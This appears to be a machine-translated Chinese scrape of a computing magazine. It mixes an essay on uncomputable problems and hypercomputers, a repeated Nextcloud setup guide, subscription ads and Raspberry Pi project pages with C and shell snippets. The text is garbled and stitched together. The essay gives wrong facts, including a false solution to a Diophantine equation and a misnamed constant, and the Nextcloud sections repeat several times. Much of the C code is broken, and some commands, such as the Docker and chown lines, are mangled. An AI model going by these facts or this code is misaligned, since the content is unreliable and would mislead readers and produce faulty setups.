许多对技术充满热情的人倾向于认为任何问题现在都可以由计算机解决。自从第一个程序出现 70 年来，计算机的应用从作为高级计算器扩展到涵盖娱乐、工程、艺术、商业和贸易以及移动手机，令人惊讶的是，有些问题计算机无法解决。如果这很难相信，让我们说有些问题可能是不可计算的，用个更好的词。第一个原因是显而易见的：如果一个问题无法被正确表达，就无法设计程序来解决。哲学问题属于这一类，并且正如某些计算机无法证明。与人类交流，观察者能够区分人类和机器，图灵预测这将在 2000 年解决，但该日期一直被推迟，一些专家现在最晚给出 2009 年。人们广泛认为这个问题迟早会被解决，图灵测试和类似的技巧被证明是困难的。

Kotlin 允许我们扩展现有类并获取新方法。在这种情况下，我们必须在函数声明中附加类名。可以通过这种方式完成：例如，我们可能会为 `Int` 类添加一个可以用于计数数字的方法。

每增加一个位推就将未来推迟了两年半——而再增加五个则将其推到 15 年后。

天气预报引入了另一个问题。天气预报涉及建立一个包含温度、压力、风速等大气值的模型，将这些值代入模型并进行模拟，以确定未来状态。数学家认为这是一个混沌系统，这意味着它对初始条件具有超敏感性。

## 有些问题可以用逻辑语言提出，但却是不可计算的

无论对模型控制得有多精确，初始条件测量值的误差都限制了对未来预测的远程度。如果只有百分之一的准确率，预报可能准确持续几天——但此之后预报就会偏离现实。将准确率再提高一个百分点——这是不可能的——总会有极限。这是自然界中不可避免的事实；无论多么巧妙的计算机工程都无法克服它。

也许最重要的观点是，用逻辑语言提出的问题——不可计算的约束——是不可计算的。这就是我们所关注的这类奇特问题。

## 停机问题

作为程序员，我们都陷入了无休止的循环中，而不是终止并产生有意义的结果。因此，如果有一个软件工具能够分析程序并确定它最终会停止还是循环，将是一个非常有用的开发辅助工具。

根据图灵的说法，这是不可能的。当然，有些情况一眼看去就能发现它会循环，然后显然会终止。通常情况下，图灵声称停机问题是不可能的；他包含了一个运行在自身之上的停机问题程序，这种条件会导致悖论。该证明方法与证明通用循环不存在的证明非常相似，尽管神谕机证明更容易理解。

### 随机数

大多数编程语言都拥有一个生成随机数的函数。当然，这些仅仅是伪随机的，遵循一个漫长且复杂的模式，对于大多数应用来说这并不是问题。但不能忽略某些情况——例如在线赌博——在这些情况下，即使是预测序列中下一个数字的微概率也可能构成风险。遗憾的是，真正的随机数是不可计算的。

例如，金刚晶圆比计算出的更好，但软件所生成的随机数是由特殊硬件生成的。这种设备被称为 ERNIE——电子随机数指示设备——其特点是利用电阻中的热噪声。这只是用于生成随机数的许多过程之一，而 ERNIE 实际上是一个相当的模拟计算机，这是否意味着随机数应该被后考虑？


ERNIE 之上是模拟计算机？真正的随机数仍被认为不可计算。

在罗马的圣玛利亚大教堂，有一块著名的游客景点石头，它在罗宾汉德的浮雕中非常出名。传说说，“真理之口”（Bocca della Veritas）曾用来辨别真伪。人们把手伸进张开的嘴里并陈述一个观点，如果是真的，则什么都不会发生；但如果他们撒谎，嘴就会闭上，封锁撒谎者。

现在，类图灵对停机问题不可计算性的证明，让我们想象你把手放在嘴里并陈述：“你会咬掉我的手”。为了证明真理之口不是万能判官，我们只需要考虑两种可能性：什么都没有发生。问题在于，这与事实相反。

## 特性不可计算

揭穿关于罗马“真理之口”的传说，与图灵证明停机问题不可计算性的证明非常相似。


在当今的计算技术中——要确定一个丢番图方程是否有解。用稍微不那么数学化的语言来说，丢番图方程是一个通常包含两个或多个未知数的多项式方程，仅允许整数搜索。例如 $a^4+b^4=c^4+d^4$。其中第一个是有解的，最简单的非平凡答案是 $a=2, b=1, c=9, d=0$（或 $12^2+3^2=13^2$）。如果无人解，并不意味着没有解；可能只是涉及到大数字，而试错法刚刚覆盖了一个解。在这一探索持续了 70 年后，俄罗斯数学家和计算机科学家尤里·马蒂亚塞维奇证明了该问题是不可判定的。

鉴于交给他的问题，你无法确定自己不会去解释所做出的陈述，所以嘴错了；它本应该砰关上的。选项二是嘴猛地合上。这也是错误的反应，因为陈述是真的，说话者本应该完好无损地缩回手。无论如何，这张脸都会出错。事实是，至少有一个陈述是无效的，这可以证明，“真理之口”并非仅仅为了触摸而闻名。停机问题的很多方面都是如此。

机器的逻辑、可计算性问题还带我们进入更深层次的世界应用。心律失常——一种心脏疾病，在极端情况下会导致死亡——这是华威奇大学的史蒂夫·史密斯博士的一项有趣程序的课题。

## 停机问题之外

### 快速指南：停机问题

这意味着，如果某些问题可以解决，就会允许停机问题的解决。根据归约原理，由于我们不得不得出这些问题是不可计算的结论。不可计算问题的几个后果也将用于调试工具，例如，确定特定代码段是否会运行，或者变量是否被初始化。确定一个算法是否能够执行已知的第二种功能同样重要。

我们已经描述了停机问题不可计算的证明，这与真理之口无法辨别真伪的证明非常相似。如果你知道如何制造它，就理解了艾伦·图灵的核心。


并不是所有可计算的问题都与调试有关，正如 1900 年由希尔伯特所示。

## 功能未计算


| 执行指令 | | | | | |
|---|---|---|---|---|---|
| 0 | 1 | 2 | 3 | 4 |
| 5 | 6 | | | |

“芝诺机”与今天的计算机相似之处在于，它们像你桌子上的 PC 一样，以数字化的方式运行，按顺序执行指令。当程序运行时，第一条指令的执行速度是前一条指令的两倍，而这个时间取决于机器的时钟频率。然而，这与普通 PC 的相似之处仅此于此。在芝诺机中，速度会不断加快，使得每条指令的执行速度都是前一条的两倍。其影响是惊人的：第一条指令需要半秒钟，第二条意味着四分之一秒，以此类推。当我们达到一秒钟时，计算机已经执行了无限次指令，这将通过简单运行程序来查看它是否运行解决停机问题。

> 某些计算可能会开始利用黑洞使时间静止，但将允许解决停机问题。

如果能够计算出莱廷格常数的前许多位，那么就有可能确定任何相同长度的程序是否会停止。这将导致一系列其他无法计算的问题。由于其巨大的威力，莱廷格常数被称为“哲学家的常数”：我们永远不知道它的大小。

在论证了逻辑问题无法解决这一事实后，我们现在转向：

- 主要议题：相对论超计算机

## 相对论超计算机依赖于时空中的不同点经历的时间不同的这一事实

芝诺机是此类情况的一个例子：一个有趣的奇闻，但无法被制造，因为它受到许多基础物理定律的限制。我们的下一个超计算机示例运行的时间与其他计算机并不完全相同，但在物理意义上是不存在的。

时空中的相对论超计算机所经历的时间是不同的。黑洞就是一个例子，因为它们的引力强大到连光都无法逃脱。

我们将通过建议这些问题在某种超计算机出现之后可以得到解决，来反过来颠覆这一观点。超计算机是一种可以解决许多无法计算问题的计算机，包括停机问题。症结在于，如果我们有一台超计算机和无限的时间，我们极可能永远无法回家。所以让我们先回到停机问题。

我们已经看到，无法确定一个程序是否会停止。一个常见的反对意见是，应该通过运行程序来找到这个问题的答案。在某些情况下，它会停止，并得出一个取决于步数的延迟。但面对无限，我们知道在这里程序看起来可能不会停止——但无论我们等了多久，心中总会有一个挥不去的疑虑，认为我们等得还不够长，不足以判定它陷入了无限循环。在看到结果之前，你永远没有足够的时间。所以，让我们来看一种可能的超计算机架构：

这是唯一一个关于特殊类型巨大旋转黑洞（如克尔黑洞）的实际实现的例子，但放置在那种速度下的计算机在黑洞附近看起来似乎是以无限速度运行的。然而，它将拥有无限数量的指令，因此解决了停机问题。这里有几个问题，但事实是计算机足够可靠可以永远工作，并且需要无限的能量源。那么，最好不要近期就对超计算机寄予厚望。


# 永不错过问题

# 美国优惠

# 美国特惠优惠

优惠于 2018 年 7 月 31 日结束！

# 订阅 & 免费赠送 6 期

免费 DVD！最新的 Linux MINT！

4.7GB DVD！四个完整发行版

4.7GB DVD！顶级备份工具


免费 DVD！评测新款 Linux P3+ B+

免费 DVD！新 Ubuntu 18.04 LTS

免费 DVD！UB 3.8


# 在线订购并节省

www.favouritimagazines.co.uk/sublad

## 或拨打 0344 888 222

优惠于 2018 年 7 月 31 日结束！此优惠受条款和条件限制。详情请访问。

## 初创企业特辑


# 初创企业 NextCloud 指南

## 概览

- 入门指南 p66
- 加密 p67
- 编辑办公文件 p68
- 团队协作 p69

# 适用于创业企业的 Nextcloud

安装 Nextcloud 有多种方法。某些托管主机提供了预配置的软件包，或者你可以购买一个已经装好 Nextcloud 的预配置设备，它支持包括树莓派在内的多种不同硬件能力。

如果你有运行它的 Web 空间，也可以通过下载网络安装程序（单个 PHP 文件）来使用 MySQL 和 PHP 进行设置，尽管这可能无法让你获得最新版本的 Nextcloud。

然而，我们将介绍最实用的操作方法，这对于你拥有服务器或 VPS 的完全控制权非常有用。通过下载 Nextcloud 压缩包并将其解压到服务器，这种方法意味着你可以将其放置在任何想要的地方，而网络安装程序仅限于某些区域。

在安装之前，你需要处理依赖项。除了 Apache、MySQL、MariaDB 或 PostgreSQL 之外，你还需要几个模块，如 `php-gd`、`php-mysql`、`php-zip`、`php-xml` 和 `php-curl`。这些是 Debian 和 Ubuntu 系统所需的模块；其他系统可能以不同的方式打包和命名，但只要你安装了 LAMP 栈，Nextcloud 都会提示你缺少了任何模块。将浏览器指向 `http://localhost` 以确保 Apache 正常运行。

你不想在 Nextcloud 的配置文件中存储用户的数据库凭据，因此你需要向 MySQL 增加一个单独的用户。目前授予该用户所有权限，一旦创建了数据库，你可以将其更改为仅允许访问 Nextcloud 数据库。你可以使用 `mysql` 命令行或使用 `phpMyAdmin` 界面，这取决于你对深入研究 SQL 的熟悉程度。

在 Ubuntu 上，Nextcloud 位于 Apache 的文档根 `/var/www/html` 下，但某些其他系统使用 `/srv`。

```bash
$ unzip -d /var/www/ nextcloud-13.8.1.zip
```

这会在 `/var/www` 中创建一个 Nextcloud 目录。我们现在需要通过编辑 `/etc/apache2/sites-available/nextcloud.conf` 来告诉 Apache 它的位置。

```apache
Alias /nextcloud/ "/var/www/nextcloud/"

<Directory /var/www/nextcloud/>
    Options FollowSymlinks
    AllowOverride All
</Directory>

SetEnv HOME /var/www/nextcloud
SetEnv HTTP_HOME /var/www/nextcloud
```

并将其符号链接到 `/etc/apache2/sites-enabled`：

```bash
$ ln -s /etc/apache2/sites-available/nextcloud.conf /etc/apache2/sites-enabled/
```

## 设置 Nextcloud

## 创建数据库

创建一个 MySQL 用户来访问你的 Nextcloud 数据库。你可以通过 `mysql` 命令行或 `phpMyAdmin` 完成。如果你还没有创建数据库，请先授予用户完全权限。

## 添加任何缺失的模块

Nextcloud 需要几个 PHP 模块。如果你看到类似“使用你的包管理器安装缺失模块”的消息，请返回终端并刷新它以继续下一步。

## 设置用户

在这里，你可以在 Nextcloud 内部创建一个管理员用户——以后可以添加其他用户——并提供 MySQL 数据库的凭据。将数据文件夹移动到文档根之外是一个好主意。

## 活动

这意味着你需要一个证书，你可以为小型设置自行生成证书，或者从 Let's Encrypt (http://letsencrypt.org/) 免费获取。处理过程取决于你的选择，差异在网站上有记录。差异在于证书的安装以及你的 Apache 插件；一旦安装，只需运行：

```bash
$ apachectl restart apache2
```

左侧 Nextcloud 将通过以下方式通知你你自己和其他人的操作——无论是通过活动流、电子邮件还是两者兼有。

| | | | | | | |
|---|---|---|---|---|---|---|
| 人员 | | | | | | |
| 活动 | | | | | | |
| 共享 | | | | | | |
| 设置 | | | | | | |
| 管理 | | | | | | |
| 应用 | | | | | | |
| 文件 | | | | | | |

下方活动屏幕显示了在你用户区域发生的一切，包括他人共享的更改和修改。


并回答问题。你需要为安装 Web 根（Apache 术语中的 `DocumentRoot`）提供域名。该域名必须有一个公共 IP 地址，因为 `certbot` 在颁发证书之前会检查你是否从该域名运行。它会安装并设置 Apache 使用——这非常简单。

最后，确保已启用 `mod_rewrite` 并且 Apache 可以通过以下命令创建 nextcloud 目录：

```
$ chown -R www-data:www-data /var/www/nextcloud own
```

现在重启 Apache 并将浏览器指向 `http://localhost/nextcloud`。Nextcloud 将向你显示或拒绝继续，因此请安装设置。填入你的名称和密码，使用你创建的 MySQL 密码。

## 保持安全

运行自己的云服务器的优势是显而易见的：对数据的控制、随你需要的存储空间以及本地访问——但缺点呢？运行自己的云服务器的主要缺点是你必须自己维护它。

我们将 Nextcloud 安装在 Web 服务器的文档根中，这是为了本地安装的，但如果你想要一个可访问的服务器则不然。在这种情况下，你可能需要在 `cloud.example.com` 一个云数据库。如果你允许从本地网络外部访问，强烈建议使用 SSL。

> **贴士** 如果你担心用户消耗你所有的存储空间，请为每个用户设置配额以确保有足够的空间进行实际工作。

## 添加更多用户

现在在 Nextcloud 中添加一些用户。虽然你最初设置了他们的密码，但出于安全考虑，他们在登录后可以更改密码。用户也可以被添加到组中。

## 活动

Nextcloud 需要几个 PHP 模块。如果你看到类似“使用你的包管理器安装缺失模块”的消息，请返回终端并刷新它以继续下一步。

## 设置用户

在这里你可以在 Nextcloud 内部创建一个管理员用户——以后可以添加其他用户——并提供 MySQL 数据库的凭据。将数据文件夹移动到文档根之外是一个好主意。

## 活动

这意味着你需要一个证书，你可以为小型设置自行生成证书，或者从 Let's Encrypt (`http://letsencrypt.org/`) 免费获取。处理过程取决于你的选择，差异在网站上有记录。差异在于证书的安装以及你的 Apache 插件；一旦安装，只需运行

左侧 Nextcloud 将通过以下方式通知你你自己和其他人的操作——无论是通过活动流、电子邮件还是两者兼有。

| 人员 | 活动 | 共享 | 设置 | 管理 | 应用 | 文件 |
|---|---|---|---|---|---|---|

下方 活动屏幕显示了在你用户区域发生的一切，包括他人共享的更改和修改

```
$ apachectl restart apache2
```

并回答问题。你需要为安装 Web 根（Apache 术语中的 `DocumentRoot`）提供域名。该域名必须有一个公共 IP 地址，因为 `certbot` 在颁发证书之前会检查你是否从该域名运行。它会安装并设置 Apache 使用——这非常简单。

最后，确保已启用 `mod_rewrite` 并且 Apache 可以通过以下命令创建 nextcloud 目录：

```
$ chown -R www-data:www-data /var/www/nextcloud own
```

现在重启 Apache 并将浏览器指向 `http://localhost/nextcloud`。Nextcloud 将向你显示或拒绝继续，因此请安装设置。填入你的名称和密码，使用你创建的 MySQL 密码。

## 保持安全

运行自己的云服务器的优势是显而易见的：对数据的控制、随你需要的存储空间以及本地访问——但缺点呢？运行自己的云服务器的主要缺点是你必须自己维护它。

我们将 Nextcloud 安装在 Web 服务器的文档根中，这是为了本地安装的，但如果你想要一个可访问的服务器则不然。在这种情况下，你可能需要在 `cloud.example.com` 一个云数据库。如果你允许从本地网络外部访问，强烈建议使用 SSL。

> **贴士** 如果你担心用户消耗你所有的存储空间，请为每个用户设置配额以确保有足够的空间进行实际工作。

## 添加更多用户

现在在 Nextcloud 中添加一些用户。虽然你最初设置了他们的密码，但出于安全考虑，他们在登录后可以更改密码。用户也可以被添加到组中。

## 活动

Nextcloud 需要几个 PHP 模块。如果你看到类似“使用你的包管理器安装缺失模块”的消息，请返回终端并刷新它以继续下一步。

## 设置用户

在这里你可以在 Nextcloud 内部创建一个管理员用户——以后可以添加其他用户——并提供 MySQL 数据库的凭据。将数据文件夹移动到文档根之外是一个好主意。

## 活动

这意味着你需要一个证书，你可以为小型设置自行生成证书，或者从 Let's Encrypt (`http://letsencrypt.org/`) 免费获取。处理过程取决于你的选择，差异在网站上有记录。差异在于证书的安装以及你的 Apache 插件；一旦安装，只需运行

左侧 Nextcloud 将通过以下方式通知你你自己和其他人的操作——无论是通过活动流、电子邮件还是两者兼有。

| 人员 | 活动 | 共享 | 设置 | 管理 | 应用 | 文件 |
|---|---|---|---|---|---|---|

下方 活动屏幕显示了在你用户区域发生的一切，包括他人共享的更改和修改

```
$ apachectl restart apache2
```

并回答问题。你需要为安装 Web 根（Apache 术语中的 `DocumentRoot`）提供域名。该域名必须有一个公共 IP 地址，因为 `certbot` 在颁发证书之前会检查你是否从该域名运行。它会安装并设置 Apache 使用——这非常简单。

最后，确保已启用 `mod_rewrite` 并且 Apache 可以通过以下命令创建 nextcloud 目录：

```
$ chown -R www-data:www-data /var/www/nextcloud own
```

现在重启 Apache 并将浏览器指向 `http://localhost/nextcloud`。Nextcloud 将向你显示或拒绝继续，因此请安装设置。填入你的名称和密码，使用你创建的 MySQL 密码。

## 保持安全

运行自己的云服务器的优势是显而易见的：对数据的控制、随你需要的存储空间以及本地访问——但缺点呢？运行自己的云服务器的主要缺点是你必须自己维护它。

我们将 Nextcloud 安装在 Web 服务器的文档根中，这是为了本地安装的，但如果你想要一个可访问的服务器则不然。在这种情况下，你可能需要在 `cloud.example.com` 一个云数据库。如果你允许从本地网络外部访问，强烈建议使用 SSL。

> **贴士** 如果你担心用户消耗你所有的存储空间，请为每个用户设置配额以确保有足够的空间进行实际工作。

## 添加更多用户

现在在 Nextcloud 中添加一些用户。虽然你最初设置了他们的密码，但出于安全考虑，他们在登录后可以更改密码。用户也可以被添加到组中。

## 活动

Nextcloud 需要几个 PHP 模块。如果你看到类似“使用你的包管理器安装缺失模块”的消息，请返回终端并刷新它以继续下一步。

## 设置用户

在这里你可以在 Nextcloud 内部创建一个管理员用户——以后可以添加其他用户——并提供 MySQL 数据库的凭据。将数据文件夹移动到文档根之外是一个好主意。

## 活动

这意味着你需要一个证书，你可以为小型设置自行生成证书，或者从 Let's Encrypt (`http://letsencrypt.org/`) 免费获取。处理过程取决于你的选择，差异在网站上有记录。差异在于证书的安装以及你的 Apache 插件；一旦安装，只需运行

左侧 Nextcloud 将通过以下方式通知你你自己和其他人的操作——无论是通过活动流、电子邮件还是两者兼有。

## 在线

Nextcloud 允许编辑共享文件，并让所有人都能看到更改。Nextcloud 集成了 Collabora Online，一个基于 LibreOffice 的在线办公软件。Collabora 需要设置——不必在 Nextcloud 内部——并且以 Docker 镜像的形式提供。你的服务器需要配置 SSL，假设你满足了这些要求，就可以安装并运行 Collabora，这虽然有点像是一次性的任务。确保 Docker 容器正在运行并设置为自启动，下载并运行容器

```
# docker pull collabora/code

# docker run -d -p 9980:8080 --name collabora -e domain=cloud.mydomain.com --restart always --cap-add collabora/code
```


使用 Collabora Online，你可以在浏览器中查看和编辑流行的格式——所有格式。

现在你已安装并运行了 Nextcloud，能够上传和下载文件，可能已安装桌面客户端并点击共享进行自动同步。现在你可以在自己的云上存储——但它只是你自己的云。多年前承诺的“每个桌面一台电脑”场景的优势之一：共享信息并与他人在相同数据上工作。让我们看看如何操作。

完成安装时，点击顶部的设置图标并选择用户。在这里你可以创建用户，设置他们的密码、存储配额并管理组成员。每个用户都可以根据邀请加入。他们可以配置 Nextcloud 通知他们特定的事件，例如文件创建或修改。你还可以通过点击顶栏中的铃铛图标查看最近更改。

虽然 Nextcloud 默认安装，添加一些应用会变得更强大。某些是 Nextcloud 的官方应用，另一些是使用它构建的第三方应用。它们从设置菜单访问，并由组中的任何成员启用。组提供了一种快速简单同时启用应用的方法；例如，组应用处理日历和联系人同步，以及视频和通话。

领域通过在域名参数中列出所有域名，并用 `|` 字符分隔（`domain=cloud.mydomain.com\;mydomain\.org`）。域名中的点需要用双反斜杠转义，以防止它们匹配任何字符。

现在我们将使用 SSL 将 Apache 设置为反向代理。在 Debian 和 Ubuntu 上，通过运行以下命令完成：

- `apache proxy`
- `apache proxy_wstunnel`
- `apache proxy_https`
- `apache ssl`

然后，根据 <https://nextcloud.com/collabora> 上的你的域名，在 `/etc/apache/sites-enabled/yourdomain.conf` 中创建一个文件来设置 Apache。不要忘记更改 `ServerName` 和 `SSLertificate` 路径以匹配你的配置。你可以尝试在这里使用自签名证书。

协作可以意味着几个人在同一个文件中工作，但也意味着交流。

# 快速指南

## 真正的私密加密

SSL 保护通过公共线路传输中的数据，但服务器可以读取通过它的数据——因此 Nextcloud 为客户端提供了端到端加密。对于移动客户端和开发客户端，这仍然受到限制。要使用它，你首先需要启用默认加密，然后进入你的 Nextcloud 账户。如果你点击文件夹旁边的图标，将看到加密它的选项。点击文件夹口令（Nextcloud 将显示它并将其保存在安全的地方——而不是文件夹后面），然后点击某些文件在 Web 界面上查看它们；如果你有另一台移动设备，你将密码。通过这种方式你可以看到它。当加密文件被释放时，它可以在设备之间进行共享，即使是 Nextcloud 服务器的管理员也无法读取它。

如果仅使用 Let's Encrypt 的免费证书是不支持且没有意义的。Nextcloud Collabora Online 只需要在 Nextcloud 中安装。从应用列表的“Office & Text”部分加载该应用，然后进入“设置 > Collabora Online”并赋予你的服务器完全权限。这样你就可以通过点击它们来编辑主要类型的文件。设置页面允许你将 Collabora 的使用限制在需要的某些用户或组。

Collabora 意味着几个人同时在同一个文件中工作。走进隔壁办公室谈谈我们需要的任何要好得多，这种方法不需要体力消耗，而且比会议更轻松。启用列表应用会在顶部栏添加一个新图标。在这里你可以创建列表并与他人共享。如果你想接收你的反应消息，点击列表页面上的“加入通话”按钮来启动视频通话。

视频通话现在是 Nextcloud 的不可或缺的一部分，包括会议电话。

# 快速提示

保持你的数据安全！由于对服务器有完全访问权限，你可以将 Nextcloud 数据目录移出 Web 根目录，这意味着它不再被 Web 服务器直接访问。确保新位置对 `www-data` 用户是可写的。


# 发现我们的另一本优秀杂志

从科学和历史到技术和工艺，数十本 Future 杂志可以迎合所有口味。

# 程序员和创作者的必备指南

## 实用

### 树莓派


> 72 “亚克力板非常难切割”

# 目录

- 72 创建一个伪全息音乐可视化器
- 74 构建一个低成本控制器让你的树莓派进入休眠
- 76 使用套件配合树莓派创建一个气象站

# 全息音视频可视化器

使用这种具有未来感的全息风格可视化器让你的音乐活起来，并改变你的现实。

通过在木框上安装一些亚克力板，Hacker House 的黑客成功地将普通的 CD 显示器转换了一个 3D“全息”可视化器，这非常令人大眼界。

该设备将图像从显示器投影到亚克力棱镜（棱台），然后产生全息视差效果。为了增加未来感，我们使用了来自 Pi Supply 的 Flick，它使他们能够使用手势来控制播放、音量和视觉效果。树莓派 3 处理了一台更强大的计算机，可以高效运行 WebGL 图形。

这对进取的组合在记录整个构建过程方面做得非常出色，提供了详细的物理结构指南和项目指南（Hacksterio, <http://hacksterio.com/project>）。起初看起来相当艰巨，创建框架需要一些活动部件，这些部件需要根据投影可视化内容的显示器尺寸固定到精确的尺寸。

过去曾为一个个人项目使用 WebGL 制作音视频可视化图形。与此同时，我们在网上看到了一些如何用 CD 盒和手机制作微全息投影仪的视频。我们认为将它们合并在一起制作一个真正的可视化器会很有趣。

项目最具挑战性的部分是什么？
你觉得有什么困难的地方吗？

构建过程相当直接，但代码写起来有点费劲。我希望它能以流畅的帧率运行，或者提供一个简单的界面让每个人在家里都有自己的一个。

使用计算机运行可视化器而不是树莓派有什么特殊原因吗？

我们尝试过在树莓派上运行 WebGL 图形，但它无法以流畅的帧率运行。我们希望一切都在一个设备上，但控制板无法在标准的 SDK 上运行。

你有扩展该项目的计划吗？

我最初想使用 Spotify API 获取音乐，但我发现它只流式传输 3 秒的声音循环。SoundCloud API 是唯一我觉得可以同步声音的，但它大多是不足够的内容。将来，我可能会尝试用手机从本地文件或 SoundCloud 扩展音频，这样我可以播放更多。

这个项目涉及大量的物理构建。
人们在尝试之前应该注意什么？

亚克力板非常难切割，所以务必制作这个部件并进行一些练习以验证这一点。过去曾为一个个人项目使用 WebGL 制作音视频可视化图形。与此同时，我们在网上看到了一些如何用 CD 盒和手机制作微全息投影仪的视频。我们认为将它们合并在一起制作一个真正的可视化器会很有趣。

# 3D 投影

该设备将图像从显示器投影到亚克力棱镜（棱台），然后产生全息视差效果。为了增加未来感，我们使用了来自 Pi Supply 的 Flick，它使他们能够使用手势来控制播放、音量和视觉效果。树莓派 3 处理了一台更强大的计算机，可以高效运行 WebGL 图形。

这对进取的组合在记录整个构建过程方面做得非常出色，提供了详细的物理结构指南和项目指南（Hacksterio, <http://hacksterio.com/project>）。起初看起来相当艰巨，创建框架需要一些活动部件，这些部件需要根据投影可视化内容的显示器尺寸固定到精确的尺寸。

过去曾为一个个人项目使用 WebGL 制作音视频可视化图形。与此同时，我们在网上看到了一些如何用 CD 盒和手机制作微全息投影仪的视频。我们认为将它们合并在一起制作一个真正的可视化器会很有趣。

# 树莓派教程：电源控制

# 树莓派：让你的开发板准时休息

使用低功耗、低 8 位控制器在你不使用时自动唤醒树莓派


Tam 是总部位于布拉迪斯拉发的的咨询公司 Tomagemond Holding k.s. 的执行官，该公司专注于跨学科系统的开发。

在 MPLAB 推荐的位置保存文件 `MyConfig.mc3`。然后使用 MCC 匹配底层项目的结构。通过切换到 Projects 标签卡禁用 MCC，并打开 MCC Files > I2C。


Microchip 的代码生成器产生了一个虚拟 I2C EEPROM，由 PIC ISR 调用。因此，这个开销必须消除。移除 `I2C_CallBack` 特别重要：每当有数据需要处理时，硬件 MCC 都会被调用。我们的新实现如图 1 所示。

当 Arduino Yun 运行它时，组合过程变得流行；结合专用于处理实时和低功耗任务的高性能 8 位控制器，这种方法可以用于树莓派，将高效节能的消费级系统与更简单的微控制器相结合。

```c
case I2C_SLAVE_READ_REQUEST:
    break;
case I2C_SLAVE_COMPLETED:
    break;
```

Microchip PIC16F1503 是一款非常方便的设备——它由行业领先的 IDE（MPLAB with X）支持，DIP 封装价格低廉，并且可以使用廉价的 8 位编程器进行编程。为了降低总功耗，并且由于存储限制，我们无法讨论（简单的）电源调节电路。

示例中使用的变量和常量并不重要；只需确保它们按照示例编码在代码中即可。你的编写方式会影响主循环。当用 C 语言编程时，微控制器的行为通常类似于基础命令行；启动后，`main` 将一直运行直到……

在 PIC 上：启动 MPL，在 Microchip Embedded Template 上创建一个新项目。确保选择了正确的 MCU，并在“session”窗口中设置配置。这不像示例那么长：

```c
void main(void) {
    SYSTEM_Initialize();
    INTERRUP_GlobalInterruptEnable();
    INTERRUP_PeripheralInterruptEnable();
}
```

在 Projects 标签卡中选择项目，点击工具栏上的 MCC 图标。在这里，Microchip 的代码生成器简化了有用项目的生成，设置了高时钟频率（通常高达 16MHz）默认的 500kHz 不足以驱动 PIC 控制器。

```c
currentState=RUNNING;
lastWakeState=I2CARAISE;
IO_RC3_SetHigh();
```

接下来使用 Device Resources 标签卡中的 `MCCConfig` 并将其添加到项目中，以配置解决方案中使用的硬件模块。正确的模式称为 I2C 模式，地址 0 完美符合我们的需求。

下一段代码对你的主循环至关重要。执行速率通过调用 Microchip 特有的宏 `__delay_ms` 进行限制。循环运行一次需要 100ms 以及处理所需的任何时间。等待循环非常简单。检查我们是否处于睡眠状态；如果是，则剩余计时器将减 1。最后，根据情况调整电源引脚的状态：

```c
while(timer1==1) {
    if(currentState==S_GOINGSLEEP) {
        timerGoToSleep;
        if(timerGoToSleep==0) {
            currentState=S_SLEEPING;
            ID_RC_SetLow(0);
        }
    }
}
```

关闭进程不是瞬时过程；我们的程序通过只在指定的延迟结束后才关闭树莓派来避免这一点：

```c
else if(currentState==S_SLEEPING) {
    timerSleep--;
    if(timerSleep==0) {
        currentState++;
        lastUpdate=I2CALALARM;
        ID_RC_SetHigh(0);
    }
}
__delay_ms(100);
```

只需要这种少小的工程努力。我们使用继电器从 R2c 引脚控制执行器。将树莓派的 SCL 和 SDA 线连接到同一台电脑上的线路，并确保两个电源是相互供电的。

以便稍后被唤醒。为了测试，更方便的方法是将 LED 连接到 POLL 引脚并用示波器监控电压水平。

首先，使用 `raspi-config` 启用 I2C 接口。完成后，重启系统以应用更改。我们的芯片连接到 3.3V 域。接下来，检测设备是否存在。

处理好，接下来的测试涉及一个小型演示程序。UNO 将 I2C 总线视为主设备，并将其视为 /dev 树中的一个设备。因此，需要一组参赛者以及文件：

```c
#define I2C_DEVICE "/dev/i2c-1"
#define I2C_PMC_ADDR 0x08
#define ERROR -1
static int i2c_fd_;
```

接下来是一个处理接线的小方法

# 图 1

```c
char writeCounter;
void I2C_StatusCallback(I2C_SLAVE_DRIVER_STATUS i2c_bus_state) {
    switch (i2c_bus_state) {
        case I2C_SLAVE_WRITE_REQUEST:
            writeCounter=0;
            timerSleep=0;
        case I2C_SLAVE_WRITE_COMPLETED:
            timerSleep=(timerSleep<8)+1;
            if(writeCounter) {
                timerGoToSleep;
                currentState=S_SLEEPING;
            }
            writeCounter++;
            break;
    }
}
```


```c
void init_hardware() {
    wiringPi();
    i2c_fd_ = i2c_Open(1);
    int s = wiringPiReadReg(i2c_fd_, 0);
    printf("wakeup: %d\n", s);
}
```

```c
void main() {
    init_hardware();
    wiringPiWriteReg(i2c_fd_, 0x00, 255);
}
```

在 PIC 上：
- PIC16F503
- 选择的编程器
- 面包板, wing

74

雨量计。松开所有的端子螺丝（但不要完全拧出来），将温度计的三根铜电缆插入端子块中，并拧紧螺丝将其固定。从左到右，顺序应该是黑色、红色和黄色。接下来，我们将处理风力传感器的橙色和绿色线（同样从左到右），然后是雨量计的橙色和绿色线。当这些都固定好后，我们就可以处理另一侧了。


# 06 操作系统选择

插入 SD 卡，接上电源，我们就可以开始了。在开启之前，务必检查电源和 USB 集线器是否连接正确——它们在树莓派板上上标记为左侧是 USB，右侧是电源。

准备好编码了吗？在此之前，我们需要下载并安装一个操作系统。 microSD 卡上默认安装了 NOOBS，只要你有可用的 Wi-Fi 连接，你可以在选择过程中下载它。我们推荐使用 Raspberry 选项。如果你没有 Wi-Fi 连接，将需要一个 USB 以太网适配器和电缆。

# 04 端子块到树莓派

这里变得有点棘手了。在端子块的反面，我们希望按照从上到下的顺序将公对母连接器的公头端连接起来，在第一个引脚处将黑色电缆连接到温度计。然后是黄色、紫色、绿色和橙色。在红色和黄色之间，我们还需要包含一个 4.7k欧姆的电阻。为了防止过大的电流通过温度计。电阻应该紧紧地贴在公引脚旁边。像之前一样固定所有螺丝。嗯，你需要在端子块上留五个空位，这是正常的；你可以利用这些空位进行额外的安全防护。

# 05 连接到树莓派

使用树莓派 Zero 的 GPIO 图表，将公对母电缆/连接器的末端连接到以下引脚：黑色第 6 脚（地线），紫色第 7 脚（BC4），绿色第 9 脚（地线）；第 11 脚（BCM），第 13 脚（BCK）以及红色电缆在第 17 脚（3V 电源）。一直到底部的第 20 脚（GND）。这将帮助你完成所有外部电缆和布线的设置。现在你可能想使用 USB 集线器和 HDMI 适配器临时连接鼠标、键盘和显示器，我们在设备上编写代码。设置完成后并在关闭防水容器之前，可以移除这些设备。

# 07 Python 预编程设置

我们最终发现，为了让代码在气象站的传感器上运行，是必要的。你需要运行以下命令：

```bash
sudo apt-get update
sudo apt-get install python3-setuptools
```


`python3-wimetry python3-gpiozero -y`

